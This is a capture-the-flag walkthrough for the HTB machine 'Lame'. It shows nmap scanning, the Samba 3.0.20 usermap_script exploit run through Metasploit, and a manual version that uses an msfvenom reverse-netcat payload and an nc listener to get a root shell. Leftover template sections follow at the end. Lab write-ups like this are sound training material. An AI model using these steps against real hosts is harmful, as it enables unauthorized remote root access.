 # Lame - 10.10.10.3
![](/images/lame/1. lame.png "Lame Info Card")

Contents:

1. TOC
{:toc}

<p>&nbsp;</p>
## Scanning and Enumeration
<p>&nbsp;</p>

We start with a basic nmap scan to see what ports are open:

    nmap -A -T4 10.10.10.3

![](/images/lame/2. nmap.png "nmap results")
![](/images/lame/3. nmap_2.png "nmap results")

So we have ftp, ssh, and smb open.  Normally it would be worth exploring ftp to see if we can access any files that may contain ssh creds since ssh is open as well.  From what we can tell so far, this appears to be some sort of Debian-based Linux machine.

In this case though we see a Unix Samba version - Samba 3.0.20, so let's try searching for that.

![](/images/lame/4. google_samba_exploit.png "Google: Samba 3.0.20-debian exploit")

→ So we have a rapid7 (metasploit) result as well as an exploitdb result.  Let's open both:

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

https://www.exploit-db.com/exploits/16320

<p>&nbsp;</p>
## Exploitation using Metasploit
<p>&nbsp;</p>

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

→ The rapid7 website has the following instructions for using the metasploit module:

![](/images/lame/5. metasploit options.png "rapid7 website")

→ So let's try them.  Load up msfconsole and follow the steps:

    use exploit/multi/samba/usermap_script

    show options

![](/images/lame/6. msf_1.png "metasploit")

    set rhosts 10.10.10.3

    show targets

![](/images/lame/7. msf_2.png "metasploit")


We have set the remote host (rhosts, aka the target), and the only target available is Automatic. Let's try and run it.

    run

![](/images/lame/8. msf_3.png "metasploit")

[+] Success!  We are root.  

Notice this shell does not give a prompt after the initial connection.  After you see the “Command shell session 1 opened...”  you should have a shell and be able to enter commands.

Let's go get some flags.

    cat /home/makis/user.txt

    cat /root/root.txt

![](/images/lame/9. user_flag.png "user flag")

![](/images/lame/10. root_flag.png "root flag")

And there we have our user and root flags.

<p>&nbsp;</p>
## Manual Exploitation
<p>&nbsp;</p>

https://www.exploit-db.com/exploits/16320

![](/images/lame/11. exploit_db.png "exploit-db entry")

In this case, the exploit-db entry is the Metasploit module.  Let's go back to Google and try to find something elsewhere:

![](/images/lame/12. google.png "google for the win")

Let's try this one. It contains a python script we should be able to modify to our needs.

![](/images/lame/13. github_exploit.png "exploit on github")

Click on the “Raw” and then copy/paste the code into your own python file. I'm calling mine “samba-exploit.py”

I'm using gedit, but feel free to use your text editor of choice. In your samba-exploit.py file, check out the following section:

![](/images/lame/14. edit_code.png "initial shellode")

Here we need to generate our own shellcode and then use it to replace all the "buf =" and "buf +=" lines.  Let's get to it:

    msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.24 LPORT=9997 -f python

Make sure you use your own IP address for the LHOST. 

This command may take a few moments to run and generate the shellcode.

![](/images/lame/15. msfvenom.png "msfvenom for shellcode")

Now copy/paste the generated shellcode into your samba-exploit.py:

![](/images/lame/16. edit_shellcode.png "editing the shellcode")

→ Notice I also replaced the comment above the shellcode with the actual msfvenom command I used. This is good practice if I ever need to refer back to this code.

→ Next, save the samba-exploit.py file and then chmod +x it to make it executable, then we can try and run it with no options:

   ⇒ chmod +x samba-exploit.py

   ⇒ ./samba-exploit.py

![](/images/lame/17. chmod.png "chmod the script")

→ Looks simple - just add the IP address of the target.  First though we need to set up our listener to catch the callback.  In a separate terminal window, run:

   ⇒ nc -lvnp 9997   

   ⇒ Note: This port must match whatever port number your chose for LPORT= in your shellcode

![](/images/lame/18. nc_listen.png "listener setup")

→ Now in the first terminal window we can run the exploit!

   ⇒ ./samba-exploit.py 10.10.10.3

![](/images/lame/19. samba_exploit.png "execute the exploit")

→ This will appear to hang, that is normal.  Over in your second terminal window with the nc listener you should see:

![](/images/lame/20. nc_connect.png "nc reverse shell connection")

→ Notice in the above I already ran the “whoami” command...and we are root!  Success!

→ Let's go get some flags:

![](/images/lame/21. flags.png "flags")

→ And there you have it, our user and root flags.


<p>&nbsp;</p>
## Basic formatting
<p>&nbsp;</p>

You can use *italics*, **bold**, `code font text`, and create [links](https://www.markdownguide.org/cheat-sheet/). Here's a footnote [^1]. Here's a horizontal rule:

<p>&nbsp;</p>
## Images
<p>&nbsp;</p>

![rax logo](/images/rax_intel.jpg)

<p>&nbsp;</p>
## Code
<p>&nbsp;</p>
